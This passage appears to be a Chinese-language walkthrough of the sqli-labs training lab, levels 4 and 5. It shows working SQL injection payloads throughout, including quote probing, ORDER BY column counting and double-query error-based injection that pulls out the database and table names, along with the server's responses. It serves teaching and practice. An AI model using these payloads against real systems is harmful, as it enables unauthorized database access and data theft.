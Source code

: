 - `id=1`，正常
- `id=1'`，正常
- `id=1''`，正常

再试一下双引号：

- `id=1"`：报错，`Wrong syntax to use near '"1"") LIMIT 0,1' at line 1`
-  `id=1""`：正常

类比于第3关，报错信息给出的部分语句形如`"$id") LIMIT 0,1`。只需将第1关中的payload从`id=1'`改为`id=1")`即可，其余步骤同上。

### §1.3.5 第5关 报错注入（绕过`''`）

报错有回显先按正常流程试一遍：

- `id=1`，正常
- `id=1'`，报错，`Wrong syntax to use near ''1'' LIMIT 0,1' at line 1`
- `id=1' --+`，正常
- `id=1"`，正常

据此可推测，SQL语句形如`'$id' LIMIT 0,1`。

`ORDER BY`爆列数为3：

```sql
id=1' ORDER BY 3 --+
=> SELECT ? FROM ? WHERE ID='1' ORDER BY 3 -- ' LIMIT 0,1
		# You are in...........
id=1' ORDER BY 4 --+
=> SELECT ? FROM ? WHERE ID='1' ORDER BY 4 -- ' LIMIT 0,1
		# Unknown column '4' in 'order clause'
```

尝试`SELECT`爆字段与列序的关系，结果未返回任何一个期望值，这说明返回值与数据库无关，是一个写死的值：

```sql
id=1’ and 1=2 union select 1,2,3 --+
		# You are in...........	(不是1,2,3种的任何一个)
```

这种情况下，输出正常只能告诉我们语句执行成功，不能输出我们想要的信息，只能通过输出报错了。

1. 解法一 双查询注入

   以下步骤的原理详见[§3.1.1 主键重复注入](#§3.1.1 主键重复注入)一节。

   爆数据库名：

   ```sql
   id=1' union select 1,count(*), concat((select database()), floor(rand(14)*2))as a from information_schema.tables group by a --+
   	Duplicate entry 'security0' for key 'group_key' # 我们构建的恶意payload:database()得到了执行.
   ```

   爆表名：

   ```sql
   ?id=1' union select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 0,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
   	Duplicate entry 'emails1' for key 'group_key'
   
   ?id=1' union select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 1,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
   	Duplicate entry 'referers1' for key 'group_key'
   
   ?id=1' union select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 2,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
   	Duplicate entry 'uagents1' for key 'group_key'
   
   ```